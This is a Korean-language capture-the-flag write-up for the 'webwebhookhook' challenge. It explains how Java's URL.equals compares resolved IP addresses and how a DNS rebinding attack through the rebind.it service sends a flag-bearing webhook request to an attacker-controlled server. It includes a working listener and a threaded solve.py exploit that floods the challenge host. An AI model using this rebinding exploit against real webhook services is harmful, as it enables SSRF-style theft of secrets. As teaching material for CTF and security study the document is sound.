# webwebhookhook

## Index
- [Challenge](#challenge)
    - [Introduction](#introduction)
    - [End-Point Analysis](#end-point-analysis)
- [Where is the Flag ?](#where-is-the-flag)
- [How to access the Flag ?](#how-to-access-the-flag)
- [Problem Solving](#problem-solving)
    - [DNS Rebinding](#dns-rebinding)
    - [Singularity of Origin](#singularity-of-origin)
- [Solution](#solution)
    - [1️⃣ Server Configuration](#1️⃣-server-configuration)
    - [2️⃣ Run DNS Rebinding Attack](#2️⃣-run-dns-rebinding-attack)
    - [3️⃣ Check Results](#3️⃣-check-results)
    - [⚠️ When Issues Occur](#⚠️-when-issues-occur)

## Challenge

### Introduction

주어진 문제는 Kotlin으로 개발된 `Spring` 웹 애플리케이션이며, `Docker`로 배포되어 있습니다.



해당 웹 애플리케이션의 `main()` 함수는 `WebwebhookhookApplication.kt` 에 정의되어 있으며, 객체 `State` 의 `arr` 배열에 `StateType` 인스턴스를 추가하고 있습니다.



이어서 `State` 객체는 `State.kt`에 정의되어 있습니다. 이 객체는 `StateType` 클래스의 인스턴스들을 저장하는 배열 `arr`을 가지고 있습니다. 



또한, `StateType` 클래스는 URL로 변환될 문자열 `hook`, 템플릿으로 사용될 `template`, 그리고 반환값으로 사용될 `response` 총 3개의 속성을 가집니다.  이 중 `hook` 속성은 `URI.create(hook).toURL()` 구문을 통해 입력된 문자열을 URL 객체로 변환하여 저장합니다.

마지막으로 웹 애플리케이션의 엔드포인트는 `MainController.kt`에 정의되어 있으며, 총 3개의 엔드포인트가 있습니다. 이 중 `/webhook`과 `/create` 엔드포인트는 모두 앞에서 확인한 `State` 객체를 참조하고 있습니다.



### End-Point Analysis

주어진 문제 웹 애플리케이션의 각 엔드포인트는 다음과 같습니다.

- `GET` `/`
    
    
    
    - **line 17**
        
        `home.html` 을 반환합니다. 이 HTML 페이지는 `/create` 엔드포인트에 POST 요청을 보내기 위한 폼을 포함하고 있습니다.
        
        아래는 `home.html` 페이지의 렌더링된 모습입니다.
        
        
        
- `POST` `/webhook`
    
    
    
    - **line 23~25**
        
        URL 파라미터 `hook` 으로 전달한 값을 URL 객체로 변환한 뒤, 배열 `State.arr` 를 순회하며 각 요소의 속성 `hook` 과 일치하는지 비교합니다.
        
    - **line 26~36**
        
        일치하는 경우, HTTP Request 패킷의 Body 데이터를 해당 요소의 `template` 속성에서 `_DATA_` 부분과 치환합니다. 그런 다음 이 데이터를 `hook` URL로 POST 요청을 보내고, 응답으로 `response` 속성 값을 반환합니다.
        
    - **line 41**
        
        일치하지 않는 경우에는 `{"result": "fail"}`을 반환합니다.
        
- `POST` `/create`
    
    
    
    - **line 47 ~ 52**
        
        배열 `State.arr`를 순회하며 요청 페이로드의 `hook` 과 일치하는 항목이 있으면 `{"result": "fail"}` 를 반환합니다. 반면에, 일치하는 항목이 없다면 `State.arr`에 요청 페이로드를 추가하고 `{"result": "ok"}`를 반환합니다.
        
        참고로 엔드포인트 `/` 를 접속할 때 나오는 폼 요청을 수행하면 아래의 HTTP Request 패킷이 요청됩니다.
        
        
        

## Where is the Flag ?

플래그가 담겨있는 위치는 해당 문제 웹 애플리케이션이 시작될 때 호출되는 `main()` 함수에서 확인할 수 있습니다.



즉, `State.arr` 배열에 플래그가 포함된 아래의 `StateType` 인스턴스가 저장됩니다.

```kotlin
StateType(
"http://example.com/admin",
"{\"data\": _DATA_, \"flag\": \"" + FLAG + "\"}",
"{\"response\": \"ok\"}")
```

## How to access the Flag ?

앞에서 확인한 `/webhook` 엔드포인트의 로직에서는 `StateType` 인스턴스의 `template` 값을 해당 인스턴스의 `hook` URL로 POST 요청을 보내고 있습니다.



즉, `main()` 함수에서 Flag가 포함된 `StateType` 인스턴스를 `State.arr` 배열에 저장하기 때문에, `/webhook` 엔드포인트에 URL 파라미터 `hook`으로 `http://example.com/admin`을 전달하면 해당 URL로 Flag가 전송됩니다.



이를 통해 HTTP Request 패킷을 전송하면 플래그가 담긴 `StateType` 인스턴스의 `response` 속성값이 응답으로 반환됩니다.



## Problem Solving

다만 Flag가 URL `http://example.com/admin` 으로 전송되지만, 해당 도메인에는 접근이 불가능하므로 Flag 획득이 불가능합니다. 

그러나 도메인으로 요청될 때에는 DNS 질의를 통해 해당 도메인의 호스트 주소(A 레코드)로 응답받아 도메인과 연결된 호스트 주소로 요청 패킷이 전송됩니다. 즉, 도메인에 대한 응답으로 제어가 가능한 서버의 주소를 반환하도록 해야합니다.

### DNS Rebinding

`/webhook` 엔드포인트에서는 요청받은 URL 파라미터 `hook` 을 `toURL()` 함수를 통해 URL 객체로 변환한 뒤 URL 객체 비교를 수행합니다. 이때, URL 객체 비교는 도메인(문자열)을 비교하는것이 아니라 DNS 확인 후 도메인의 호스트 주소(IP 주소)를 사용하여 일치하는지 확인하게 됩니다.

> 코틀린에서 연산자는 기본 Java 함수로 변환됩니다.(e.g. `==` → `equals`) 따라서, 도메인 비교가 아닌 IP 주소로 비교하게 됩니다.
> 
> 
> ref. [https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/net/URL.html#equals(java.lang.Object)](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/net/URL.html#equals(java.lang.Object))
> 

또한, 해당 로직에서는 `openConnection()` 함수를 수행하기 때문에 DNS 캐시가 만료되는 시점에 새로 DNS 질의를 수행하게 됩니다.


즉, `DNS Rebinding` 을 지속적으로 수행하여 제어 가능한 자신의 도메인의 A 레코드가 `example.com` 의 호스트 주소인 `93.184.215.14` 를 반환하도록 하면 코드의 비교 구문(`if(h.hook == hook)`)을 통과할 수 있습니다. 그 후 `hook.openConnection()` 구문이 호출되는 시점에 자신의 도메인의 A 레코드가 자신의 서버 주소를 반환하도록 하면, Flag가 포함된 요청 패킷이 자신의 서버로 전송되어 Flag를 획득할 수 있습니다.

다시 말해, `DNS Rebinding` 공격을 통해 도메인의 호스트 주소를 빠르게 변경하여 URL 비교 구문과 실제 요청이 전송되는 시점의 호스트 주소를 다르게 설정할 수 있습니다.

### **Singularity of Origin**

`DNS Rebinding` 공격을 수행하기 위해 DNS 질의 결과를 조작하기 위해 자신의 DNS 서버를 이용할 수 있지만, [`Singularity`](https://github.com/nccgroup/singularity/wiki/How-to-Create-Manual-DNS-Requests-to-Singularity%3F) 라는 도구를 이용할 수 있습니다. 해당 도구는 `DNS Rebinding` 공격 프레임워크로, 도메인에 직접 호스트 IP 주소를 전달하여 원하는 DNS 질의 결과를 만들어낼 수 있습니다.

예를 들어, 첫 번째 요청의 DNS 질의 결과로 `1.1.1.1` 를 응답하고 이후에는 `192.168.0.1` 을 응답할 경우 아래의 도메인으로 요청을 수행하면 됩니다.

> `<SESSION>` 에는 세션을 식별하기 위한 임의의 값을 입력하면 됩니다.
> 

```
s-1.1.1.1-192.168.0.1-<SESSION>-fs-e.d.rebind.it
```



## Solution

### 1️⃣ Server Configuration

자신의 서버로 전송되는 플래그 값을 확인하기 위해 아래의 코드를 `server.py` 로 저장한 뒤 소켓 서버를 실행합니다.(명령어: `python server.py`)

```python
import socket

# 서버 설정
HOST = '0.0.0.0'
PORT = 80

# 소켓 생성
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_socket:
    server_socket.bind((HOST, PORT))
    server_socket.listen()
    print(f"Listening on {HOST}:{PORT} ...")

    while True:
        conn, addr = server_socket.accept()
        with conn:
            print(f"Connection established with {addr}")
            while True:
                data = conn.recv(0x1000)  # 4096 bytes
                if not data:
                    break

                # HTTP 응답 구성
                response_body = "<html><body><h1>Received!</h1></body></html>"
                response_headers = (
                    "HTTP/1.1 200 OK\r\n"
                    f"Content-Length: {len(response_body)}\r\n"
                    "Content-Type: text/html\r\n"
                    "Connection: close\r\n\r\n"
                )
                response = response_headers + response_body

                conn.sendall(response.encode('utf-8'))
```


### 2️⃣ Run DNS Rebinding Attack

다음으로 자신의 호스트 PC에서 `DNS Rebinding` 공격을 수행하기 위해 아래의 스크립트를 `solve.py` 로 저장하고 실행합니다.(명령어: `python solve.py`)

해당 스크립트는 다음의 로직을 수행합니다.

1. 상수 `WEBHOOK` 에 정의된 `/webhook` 엔드포인트로 `DNS Rebinding` 도메인을 URL 파라미터 `hook` 에 담아 첫 번째 POST 요청을 수행합니다. 이 때 `hook` 에 담겨진 도메인의 A 레코드 응답은 `example.com` 도메인의 호스트 주소 `93.184.215.14` 를 응답합니다.
    - 이때, `/webhook` 엔드포인트의 URL 객체 비교 구문(`if(h.hook == hook)`)을 통과합니다.
2. 이후 `if` 문이 통과되었고, 첫 번째 POST 요청에 대한 응답으로 `{"response": "ok"}` 를 받은 뒤 일정 시간동안 대기합니다.
    - DNS 질의 응답을 받은 이후 일정 시간(30초)동안 캐시에 저장되므로 해당 시간동안 캐시된 DNS 질의 응답을 사용하게 됩니다.(ref. [참고 링크](https://github.com/AdoptOpenJDK/openjdk-jdk11/blob/19fb8f93c59dfd791f62d41f332db9e306bc1422/src/java.base/share/classes/sun/net/InetAddressCachePolicy.java#L48))
    - 만약 `{"response": "ok"}` 응답만 받고 플래그를 획득하지 못하는 경우 `TIME_OFFSET` 값을 줄입니다. 반대로 `{"result": "fail"}` 응답만 받는 경우는 `TIME_OFFSET` 값을 늘립니다.
3. 그 다음 `/webhook` 엔드포인트로 `DNS Rebinding` 도메인을 URL 파라미터 `hook` 에 담아 대량의 POST 요청을 전송합니다.
    - 이때, `hook` 에 담겨진 도메인의 A 레코드 응답은 자신의 서버 주소입니다.
    - 대량의 요청을 전송하는 이유는 DNS 캐시가 만료되기 전에 URL 객체 비교 구문(`if(h.hook == hook)`)을 통과하고, `hook.openConnection()` 구문이 실행되는 시점에 자신의 서버 주소를 응답받기 위함입니다.
4. 최종적으로 자신의 서버에서 플래그를 확인할 때 까지 위 과정을 반복합니다.

```python
import random
import requests
import time
import json
from concurrent.futures import ThreadPoolExecutor, as_completed

# TARGET = "http://localhost:8080"
TARGET = "https://webwebhookhook-0e7670270076cd04.i.chal.irisc.tf"
WEBHOOK = f"{TARGET}/webhook"

# SOCKET_SERVER_HOST = "your server ip" # e.g. 123.123.123.123
REBINDER_DNS = f"http://s-93.184.215.14-{SOCKET_SERVER_HOST}-{{0}}-fs-e.d.rebind.it/admin"

# Cache time in seconds; used to control the duration data is stored before being refreshed
CACHE_TIME = 30
# Adjust the TIME_OFFSET value to fine-tune the DNS rebinding timing:
# - If you only receive a {"response": "ok"} but fail to obtain the flag, reduce the TIME_OFFSET value.
# - If you only receive a {"response": "fail"}, increase the TIME_OFFSET value.
TIME_OFFSET = 3

def hook(i, session, hook_url, data):
    headers = {'Content-Type': 'application/json'}
    params = {
        "hook": hook_url
    }
    resp = session.post(WEBHOOK, headers=headers, params=params, data=data)
    return i, resp.text

def main():
    while True:
        session = requests.session()
        sess = int(random.random() * (2**32))
        print(f"[*] Start - {sess}")
        print(f"[*] Using Domain: {REBINDER_DNS.format(sess)}")
        while True:
            _, result =  hook("start", session, REBINDER_DNS.format(sess), "A")
            if "response" in result:
                print("[*] Waiting for the DNS cache to be cleared...")
                break

        time.sleep(CACHE_TIME - TIME_OFFSET)

        futures = []
        with ThreadPoolExecutor(max_workers=1000) as pool:
            for i in range(1000):
                future = pool.submit(hook, i, session, REBINDER_DNS.format(sess), f"[{i}] "+"A"*0x1000)
                futures.append(future)

            for future in as_completed(futures):
                i, result = future.result()
                print(f"> {i} {result}")

        print(f"[*] Done - {sess}")

main()
```



### 3️⃣ Check Results

`solve.py` 를 실행하여 `DNS Rebinding` 를 수행하면 `{"response": "ok"}` 와 `{"result": "fail"}` 응답이 번갈아가며 받게됩니다.

> `{"response": "ok"}` 응답만 받고 플래그를 획득하지 못한 경우, `solve.py` 내 변수 `TIME_OFFSET` 값을 줄이고 `{"result": "fail"}` 만을 응답 받는 경우, `TIME_OFFSET` 값을 늘립니다.
> 



이후, `DNS Rebinding` 에 성공할 경우 Rebinding 된 서버의 주소로 플래그가 전송되는 것을 확인하실 수 있습니다.


### ⚠️ When Issues Occur

- `Failed to establish a new connection: [Errno 24] Too many open files`
    
    운영체제에서 프로세스가 열 수 있는 파일(또는 소켓) 핸들의 최대 개수를 초과하면 이 오류가 발생합니다. 따라서 아래 명령어로 제한을 일시적으로 늘려야 합니다.
    
    ```bash
    ulimit -n 65535
    ```